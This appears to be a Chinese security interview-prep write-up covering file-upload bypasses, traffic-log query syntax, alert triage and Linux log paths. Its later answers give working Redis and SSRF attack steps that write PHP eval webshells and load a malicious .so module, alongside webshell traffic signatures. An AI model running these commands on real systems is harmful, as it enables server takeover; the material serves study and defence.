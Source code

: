 1.  `原理` 1.  `后端对于被上传文件的绝对信任，同时暴露自身在网页上的路径，使得被上传的恶意文件可以被访问的同时导致代码执行、命令执行等漏洞` 1.   1.  `防御` 1.  `黑白名单，对于文件内容进行处理，二次处理文件名，修改文件后缀，不允许访问被上次文件的链接地址等` 1.   1.  `绕过方式：` 1.  `前端验证绕过` 1.  `content-type绕过` 1.  `黑名单绕过，通过解析漏洞，比如：phtml、php2/3/4可解析为php` 1.  `后缀大小写绕过` 1.  `文件后缀空（点）绕过` 1.  `::$DATA WINDOWS文件流绕过` 1.  `%00截断绕过，%00表示字符串结尾` 1.  `图片马绕过` 1.  `条件竞争` 
##### 结果：通过

### 第三次：

ps*一面：
1.  `重复的就不写了，这里多问了设备还有一个日志位置` 
设备
1.  `天眼（有护网经验且用过问的就细一点，没有基本上就问用没用过）` 1.   1.  `分组，子查询：用户控制查询中的逻辑，将多个条件组合起来` 1.  `示例：` 1.  `host:"baidu.com" AND (dport:80 OR uri:"login")` 1.  `sip:("10.0.0.1" OR "10.0.0.2" OR "10.0.0.3") AND dip:"10.0.0.4"` 1.  `sip:"10.1.1.1" AND dip:"10.1.1.2" AND status:(200) ` 1.   1.  `10.1.1.1访问服务器10.1.1.2状态码为200的流量日志` 1.  `dport:"443" OR dport:"8080` 1.   1.  `访问端口是443或者8080的流量日志` 1.  `dport:"80" NOT host:"www.example.com"` 1.   1.  `访问端口为80，排除访问www.example.com域名的流量日志` 1.  `dip:"10.1.1.2" AND client_os:"windows7"` 1.   1.  `服务器ip为10.1.1.2,操作系统为windows7的流量日志` 1.  `_exists_:attachment：返回结果中必须存在 attachment` 1.  `_missing_:attachment：不能含有 attachment` 1.   1.  `处置方案：` 1.  `传感器上出现sql注入告警后` 1.  `1、验证此条sql注入告警是否真的存在sql注入漏洞` 1.  `2、通过请求数据包判断触发告警的行为是客户自身还是攻击行为` 1.  `3、若为自身业务问题，则将漏洞点相关整合成报告反馈客户` 1.  `4若为攻击者行为，需要进一步分析，查看分析平台攻击ip除了sql注入外是否有其他攻击行为，攻击的结果如何` 1.  `5、将发现时间及攻击行为反馈给护网客户` 1.  `传感器上出现RCE告警` 1.  `1、验证此条警告师傅真的成功（若成功直接出报告）` 1.  `2、若失败，判断攻击者是手工还是工具批量扫描行为` 1.  `3、进入分析平台进一步分析，查看分析平台攻击ip除了rce是否有其他攻击行为，攻击结果如何` 1.  `4、将发现时间及攻击行为反馈给护网` 
日志位置：
1.  `/var/log/secrue 登录日志` 1.  `/var/log/message系统日志` 1.  `/var/log/maillog 邮件日志` 1.  `/var/log/cron 计划任务日志` 1.  `/var/log/httpd apache日志` 1.  `/var/log/mysql mysql日志` 
##### 结果：通过

### 第四次：厂商面

#### 第一家：

c*：<br/> 1、自我介绍
1.  `学习这一行多久了、在校的时候有什么经历，拿过什么证书（这个可以写在简历里面）比如：比赛、hvv、渗透测试项目。` 
2、XXE
1.  `（第25行）` 
3、CSRF和SSRF
1.  `（第18行）` 
4、redis的几种rce手段？
1.  `1、写SSH公钥` 1.  `条件：服务器存在.ssh目录且具有写入的权限` 1.  `原理：` 1.  `在数据库中插入一条数据，将本机的公钥作为value，key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生成一个授权的key。` 1.  `2、写webshell` 1.  `条件：已知web绝对路径。` 1.  `步骤：` 1.  `1. redis -cli -h 192.168.x.x 连接目标服务器` 1.  `2. config set dir "/var/www/html" 设置保存文件路径` 1.  `3. config set dbfilename shell.php 设置保存文件名` 1.  `4. set x "\n\n&lt;?php &lt;span class="label label-primary"&gt;@eval($_POST['cmd']);&lt;/span&gt; ?&amp;gt;\n" 将webshell写入x键值中` 1.  `5. save 保存` 1.  `3、主从复制` 1.  `原理：在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在Redis中实现一个新的Redis命令，通过写C语言编译并加载恶意的.so文件，达到代码执行的目的。` 1.  `利用流程：` 1.  `生成恶意.so文件，下载RedisModules-ExecuteCommand使用make编译即可生成。` 1.  `git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand` 1.  `cd RedisModules-ExecuteCommand/` 1.  `make` 1.  `攻击端执行： python redis-rce.py -r 目标ip-p 目标端口 -L 本地ip -f 恶意.so` 
5、ssrf配合redis打rce？
1.  `利用手段：` 1.  `通过dict和gopher协议，前者探测，后者写入` 1.  `探测端口：` 1.  `ssrf.php?url=dict://x.x.x.x:$端口$ 利用burpsuite爆破端口` 1.  `探测是否设置弱口令：` 1.  `ssrf.php?url=dict://x.x.x.x:6379/info 已知端口利用info探测是否设置了密码` 1.  `爆破密码：` 1.  `ssrf.php?url=dict://x.x.x.x:6379/auth:$密码$ 利用burpsuite爆破密码` 1.  `写入webshell：` 1.  `1. url=dict://xxx.xxx:6379/config:set:dir:/var/www/html 切换文件目录` 1.  `2. url=dict://xxx.xxx:6379/config:set:dbfilename:webshell.php 设置保存文件名` 1.  `3. url=dict://xxx.xxx:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x3f\x3e"` 1.  `//利用dict协议写入webshell 以上的字符编码是&lt;?php phpinfo();?&gt;的十六进制` 1.  `4. url=dict://x.x.x.x:6379/save 保存` 1.  `通过gopher写入webshell` 1.  `set x "\n\n\n&lt;?php &lt;span class="label label-primary"&gt;@eval($_POST['redis']);?&lt;/span&gt;&amp;gt;\n\n\n"` 1.  `config set dir /var/www/html` 1.  `config set dbfilename shell.php` 1.  `save` 1.  `两次url编码直接访问即可` 
6、菜刀、蚁剑、冰蝎、哥斯拉的流量特征？
1.  `菜刀：` 1.  `连接过程中使用base64编码对发送的指令进行加密，其中两个关键payload z1 和 z2，名字都是可变的。` 1.  `蚁剑：` 1.  `一般将payload进行分段，然后分别进行base64编码，一般具有像eval这样的关键字，然后呢大概率还有&lt;span&gt;@ini_set(&lt;/span&gt;"display","0");这种代码` 1.  `冰蝎：` 1.  `16个ua头` 1.  `请求包中的conten-length字段是5740或者5720` 1.  `哥斯拉：` 1.  `在响应包的cache-control字段中有no-store，no-cache等特征。` 1.  `三次响应连接` 